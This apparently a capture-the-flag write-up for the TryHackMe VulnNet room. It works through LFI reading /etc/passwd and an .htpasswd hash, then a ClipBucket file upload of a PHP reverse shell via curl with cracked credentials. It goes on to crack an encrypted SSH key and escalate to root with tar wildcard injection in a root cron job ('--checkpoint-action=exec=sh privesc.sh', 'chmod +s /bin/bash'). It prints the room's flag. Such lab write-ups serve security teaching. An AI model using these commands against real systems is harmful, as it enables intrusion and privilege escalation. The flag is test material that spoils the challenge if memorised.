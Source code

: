 ```yaml
---
title: VulnNet
layout: post
author: Bit Criminals Team
date: 2021-05-03 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnet1
---
```


Lets start with a nmap scan.On scanning we got port 80 and 22 port 

![](/images/D4rkDemian/vulnet.png)

On checking the website we got a nice vulnnet page which didn't had anything important...

And also in the prompt we are provided with a domain **vulnnet.thm**. So lets scan for subdomains using gobuster 

```shell
gobuster vhost -u vulnnet.thm  -w /usr/share/dns 
```

we found two subdomains in which only one was working but it required authentication password.

```
broadcast.vulnnet.thm
```

Firstly add both the domains with the box ip to /etc/hosts.

Now lets run gobuster on the website which is running.

![](/images/D4rkDemian/vulnet2.png)

On searching all the directories we found something worth in /js.It gave us the hint that there is LFI(Local File Inclusion) in this box..

![](/images/D4rkDemian/vulnet3.png)

Now lets check for /etc/passwd and it worked!!

![](/images/vulnet4.png)

After playing a lot with LFI we finally found a password hash in 
```
/etc/apache2/.htpasswd
```
![](/images/D4rkDemian/vulnet5.png)

On cracking the hash using john we found that the auth credentials for **broadcast.vulnnet.thm** are 

```
developers:9972761drmfsls
```

So we are inside the **broadcast.vulnnet.thm**

It seems to be a website incorporating ClipBucket . 

![](/images/MaskdMafia/vulnnet1.png)

Checking the version shows us that it is running on ClipBucket version 4.0.
So we search for exploits in this version using the searchsploit command and come across this exploit:

![](/images/MaskdMafia/unknown.png)

(Although the name of the exploit shows that it is for versions lower than 4.0 , the comments inside the file say that it has been tested on version 4 too.)

```py
Clipbucket version 2.8.3 and version 4.0.0 have been tested. These versions were the latest at the time 
the security vulnerabilities were discovered.
```
There is a section in the exploit about arbitrary file upload to a ClipBucket website,so we try out that exploit to upload a php reverse shell.

```py
curl -F "file=@/opt/reverse_shell.php" -F "plupload=1" -F "name=anyname.php"
 "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
```
After that we start our listener on the specified port and navigate to the /actions/ directory and click on our exploit to open it.

![](/images/MaskdMafia/vulnnet2.png)

And we see that we have got a shell!
Searching through the system , we notice a very interesting file , ssh-backup.tar.gz in /var/backups.
So we extract the file to get the id_rsa key.However it is password encrypted.

```py
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A[REDACTED]9CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH[REDACTED]sugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J[REDACTED]Opu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUAD[REDACTED]URwnzW9+RwmmJS[REDACTED]0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```
So we copy it to our file and decrypt it using the following commands:
```py
python ssh2john.py id_rsa > key.hash
john key.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
After that we connect via ssh as server-management.
From there we can read user.txt to get our first flag.

After that comes privilege escalation. We try sudo -l but are prompted for a password (which we dont have :( ) so we search through the system manually but it yields no results. However on displaying the contents of /etc/crontab we see a very interesting file backupsrv.sh running. So we display the contents of the file to find out more about it.

```py
# m h dom mon dow user    command
*/2   * * * *    root    /var/opt/backupsrv.sh
17 *    * * *    root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

![](/images/MaskdMafia/vulnet3.png)

We see that it makes a backup of everything in the Document folder routinely.

Basically,it is a **CronJob** file.I searched about this in the web and here's what I found.
https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e

What this script does is basically,it creates backup of every file within the Downloads directory of the user.After reading the article I ran the commands given in the blog 

![](/images/vul4.png)
and ran /bin/bash -p  but it didin't work.

So,I changed my commnads a bit and used this instead.

```echo "chmod +s /bin/bash" > privesc.sh```

```echo "" > "--checkpoint-action=exec=sh privesc.sh"```

```echo "" > --checkpoint=1```

then,I ran /bin/bash -p and here's we get the root priviledges.

![](/images/vul5.png)

Congo, we get the flag,

***THM{220b671dd8adc301b34c2738ee8295ba}***
